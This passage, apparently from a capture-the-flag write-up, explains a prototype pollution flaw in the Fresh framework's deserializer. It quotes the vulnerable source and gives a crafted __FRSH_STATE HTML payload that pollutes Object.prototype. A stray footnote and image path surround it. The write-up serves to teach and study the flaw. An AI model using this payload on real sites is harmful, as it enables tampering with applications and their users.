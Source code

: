 Fresh recognizes `Successfully manipulated!` as a value of `text` and renders it:

![](./img/lemonmd-04.png)

#### Step 2: Prototype Pollution in Deserialization

Next, let's take a dive into the implementation of Fresh.

The source code of `deserialize` is as follows:

- https://github.com/denoland/fresh/blob/1.6.1/src/runtime/deserializer.ts#L21-L63

```typescript
export function deserialize(
  str: string,
  signal?: <T>(a: T) => Signal<T>,
): unknown {
  /* ...snip... */

  const { v, r } = JSON.parse(str, reviver);
  const references = (r ?? []) as [string[], ...string[][]][];
  for (const [targetPath, ...refPaths] of references) {
    const target = targetPath.reduce((o, k) => k === null ? o : o[k], v);
    for (const refPath of refPaths) {
      if (refPath.length === 0) throw new Error("Invalid reference");
      // set the reference to the target object
      const parent = refPath.slice(0, -1).reduce(
        (o, k) => k === null ? o : o[k],
        v,
      );
      parent[refPath[refPath.length - 1]!] = target;
    }
  }
  return v;
}
```

There is no check for Prototype Pollution attacks. It means that you are free to pollute anything you want through the props maniplation of Step 1.

For instance, if you input the following Markdown:
```html
<h1 id="__FRSH_STATE">{"v":{"bar":"foo"},"r":[[["bar"],["constructor","prototype","polluted"]]]}</h1>
```


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/